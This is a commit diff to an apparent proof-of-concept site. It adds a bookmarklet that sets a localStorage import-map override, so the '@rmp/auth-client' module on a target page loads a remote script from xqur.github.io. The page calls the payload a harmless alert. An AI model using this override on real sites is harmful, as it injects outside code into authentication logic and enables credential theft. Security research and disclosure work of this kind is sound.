

Before and after one commit to xqur/import-map-proof-poc, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 104-739 px from the top of the page, without its empty margins (248-1031 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
add bookmarklet to index.html

```diff
--- a/index.html
+++ b/index.html
@@ -54,6 +54,18 @@
 <body>
     <h1>🧪 Import Map Override — Proof of Concept</h1>
 
+    <div class="alert-box" style="border-color: #e94560;">
+        <strong>🔥 One-Click Bookmarklet</strong>
+        <p>Drag this link to your bookmarks bar, then click it while on the target page:</p>
+        <p style="font-size:1.2em; text-align:center; margin:12px 0;">
+            <a href="javascript:localStorage.setItem('import-map-override:@rmp/auth-client','https://xqur.github.io/import-map-proof-poc/proof.js');location.reload();"
+               style="background:#e94560; color:white; padding:12px 24px; border-radius:8px; text-decoration:none; font-weight:bold; display:inline-block;">
+                📌 Override @rmp/auth-client
+            </a>
+        </p>
+        <p><strong>Usage:</strong> Open target page → Click bookmark → Page reloads → Alert + Console log appear ✅</p>
+    </div>
+
     <div class="alert-box">
         <strong>⚠️ Security Research Artifact Only</strong>
         <p>This repository and its contents are intended <em>solely</em> as a harmless proof-of-concept
```
